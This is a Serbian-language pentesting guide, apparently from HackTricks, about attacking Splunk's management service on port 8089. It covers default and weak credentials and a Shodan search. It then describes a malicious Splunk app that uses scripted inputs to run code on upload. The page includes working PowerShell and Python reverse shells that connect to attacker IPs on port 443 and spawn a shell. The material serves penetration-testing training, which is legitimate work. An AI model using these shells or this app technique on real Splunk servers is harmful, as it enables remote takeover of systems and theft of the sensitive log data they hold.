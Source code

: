 # 8089 - Pentesting Splunkd

{{#include ../banners/hacktricks-training.md}}

## **Osnovne Informacije**

- Alat za analizu logova koji se koristi za prikupljanje podataka, analizu i vizualizaciju
- Često se koristi u bezbednosnom nadzoru i poslovnoj analitici
- Podrazumevani portovi:
- Web server: 8000
- Splunkd usluga: 8089

### Vektori Ranljivosti:

1. Iskorišćavanje Besplatne Verzije

- Probna verzija se automatski pretvara u besplatnu verziju nakon 60 dana
- Besplatna verzija nema autentifikaciju
- Potencijalni bezbednosni rizik ako se ne upravlja
- Administratori mogu zanemariti bezbednosne implikacije

2. Slabosti Akreditiva

- Starije verzije: Podrazumevani akreditivi `admin:changeme`
- Novije verzije: Akreditivi postavljeni tokom instalacije
- Potencijal za korišćenje slabih lozinki (npr., `admin`, `Welcome`, `Password123`)

3. Mogućnosti Daljinskog Izvršavanja Koda

- Više metoda izvršavanja koda:
- Server-side Django aplikacije
- REST endpointi
- Skriptovani unosi
- Skripte za upozorenje
- Podrška za više platformi (Windows/Linux)
- Skriptovani unosi mogu da se izvršavaju:
- Bash skripte
- PowerShell skripte
- Batch skripte

Ključni Potencijal Iskorišćavanja:

- Skladištenje osetljivih podataka
- Nedostatak autentifikacije u besplatnoj verziji
- Više vektora za potencijalno daljinsko izvršavanje koda
- Mogućnost korišćenja skriptovanih unosa za kompromitovanje sistema

### Shodan

- `Splunk build`

## RCE

### Kreirajte Prilagođenu Aplikaciju

Splunk nudi sofisticiranu metodu za daljinsko izvršavanje koda kroz implementaciju prilagođene aplikacije, koristeći svoje mogućnosti skriptovanja na više platformi. Osnovna tehnika iskorišćavanja se vrti oko kreiranja zlonamerne aplikacije koja može izvršavati reverzne ljuske na Windows i Linux sistemima.

Prilagođena aplikacija može da izvršava **Python, Batch, Bash ili PowerShell skripte**. Štaviše, **Splunk dolazi sa instaliranim Python-om**, tako da čak i na **Windows** sistemima možete izvršavati python kod.

Možete koristiti [**ovaj**](https://github.com/0xjpuff/reverse_shell_splunk) primer sa **`bin`** koji sadrži primer za [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) i [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Ili možete kreirati svoj.

Proces iskorišćavanja prati doslednu metodologiju širom platformi:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Kritična konfiguraciona datoteka `inputs.conf` omogućava skriptu na sledeći način:

- Postavljanjem `disabled = 0`
- Konfigurišući interval izvršenja od 10 sekundi
- Definišući tip izvora skripte

Implementacija je jednostavna:

1. Kreirajte paket zlonamerne aplikacije
2. Postavite slušalac (Netcat/socat) na napadačkom računaru
3. Otpremite aplikaciju putem Splunk-ovog interfejsa
4. Pokrenite automatsko izvršavanje skripte prilikom otpremanja

Primer Windows PowerShell reverzibilne ljuske:
```bash
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Primer Linux Python obrnute ljuske:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

Na sledećoj stranici možete pronaći objašnjenje kako se ova usluga može zloupotrebiti za eskalaciju privilegija i dobijanje postojanosti:


{{#ref}}
../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md
{{#endref}}

## References

- [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{{#include ../banners/hacktricks-training.md}}
